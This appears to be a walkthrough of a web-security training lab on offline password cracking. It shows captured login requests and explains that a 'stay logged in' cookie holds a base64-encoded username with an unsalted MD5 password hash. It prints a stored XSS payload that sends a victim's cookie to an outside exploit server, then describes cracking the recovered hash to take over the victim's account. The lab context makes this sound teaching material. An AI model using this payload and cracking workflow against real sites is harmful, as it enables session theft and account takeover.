








# Offline password cracking

## Lab Description :


## Overview :
n some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

## Solution :
As in the previous lab, enter credentials and log in as wiener to see how the functionality works.



The first request sent has a stay-logged-in=on parameter.
```html
POST /login HTTP/1.1
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=JaemGLTk3kt9fqbpfjJnhTFLSsqRTclh; stay-logged-in=
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=wiener&password=peter&stay-logged-in=on
```

The second subsequent request contains the stay-logged-in cookie.
```html
GET /my-account HTTP/2
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=AAZV3xRtr0zTn9mIeTlqYZkjm6WqeVMK; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Once sucessfully logged in , we get this page, where we have delete account option as well with the update email option.



Examining the stay-logged-in cookie parameter in Inspector tab reveals that it is base64 encoded form of the username & password hash

``base64{wiener:MD5(password)}``

where, the password hash is of MD5 format.

The lab says that the Comment functionality is vulnerable to XSS. So we will enter a stored XSS payload in the comment section,

``<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>``

I used burp collaborator as my exploit server - ``ufd94gqjd9x3d2k4tmycsjuec5iv6k.oastify.com``



After we post comment, we get a Thank you response



Now if we go and click Poll now in burp collaborator , we see that there were few request made to our server.

In one of the HTTP requests, we get the stay-logged-in cookie of the victim user - ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``



It is the base64 encoded form of user carlos and his MD5 hash of his password. - ``carlos:26323c16d5f4dabff3bb136f2460a943``



Using online MD5 decoders, we can easily find the password of carlos - onceuponatime

Now we can log in as carlos & delete the account to solve the lab.



#### Visit The Next Page For The Next Level :)
